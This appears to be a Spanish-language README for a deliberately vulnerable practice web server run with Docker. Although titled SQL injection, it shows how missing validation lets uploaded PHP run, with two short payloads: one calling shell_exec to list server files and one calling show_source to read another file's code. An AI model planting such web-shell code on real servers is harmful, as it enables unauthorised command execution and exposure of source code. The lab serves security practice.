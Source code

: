 # SQL Injection

Descargar y Montar el servidor desde Docker:

```bash
docker pull ghcr.io/ingenieroricardo/sqlinjection:latest
docker run --publish 8080:80 ghcr.io/ingenieroricardo/sqlinjection:latest
```


Descargar y Montar el servidor desde Docker usando un volumen con el Codigo Fuente de Github para editarlo:

```bash
git clone https://github.com/IngenieroRicardo/SQLInjection
docker pull ghcr.io/ingenieroricardo/sqlinjection:latest
docker run --publish 8080:80 -v ./SQLInjection:/app ghcr.io/ingenieroricardo/sqlinjection:latest
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente
